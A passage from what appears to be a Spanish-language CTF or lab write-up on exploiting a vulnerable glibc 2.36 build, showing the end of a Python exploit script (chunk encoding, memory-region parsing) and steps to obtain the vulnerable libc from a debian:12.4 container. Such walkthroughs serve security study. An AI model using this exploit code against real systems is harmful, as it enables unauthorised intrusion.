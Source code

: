 ~~~ python
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"

@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start

Exploit()
~~~

Antes de ejecutar este exploit modificado, necesitaremos contar con la versión vulnerable de `libc.so.6`

### Obtaining `libc` Specific Version - `debian:12.4` Docker Container

Podemos obtener la versión vulnerable de `glibc.so` desplegando el siguiente contenedor en nuestra máquina

~~~ bash
sudo docker run -it --rm debian:12.4 
~~~

Haremos una actualización básica e instalaremos las herramientas que utilizaremos

~~~ bash
root@2431b1b14659:/# apt update
root@e8706a7a5875:/# apt install ncat binutils -y
~~~

Dentro del contenedor podemos listar la versión exacta para la librería, en este caso vemos que es la librería vulnerable

~~~ bash
root@2431b1b14659:/# strings libc.so.6 | grep "release version"
GNU C Library (Debian GLIBC 2.36-9+deb12u4) stable release version 2.36.
~~~

Ahora transferiremos la librería a nuestro directorio donde realizaremos la explotación, desde la máquina atacante pondremos un puerto a la escucha
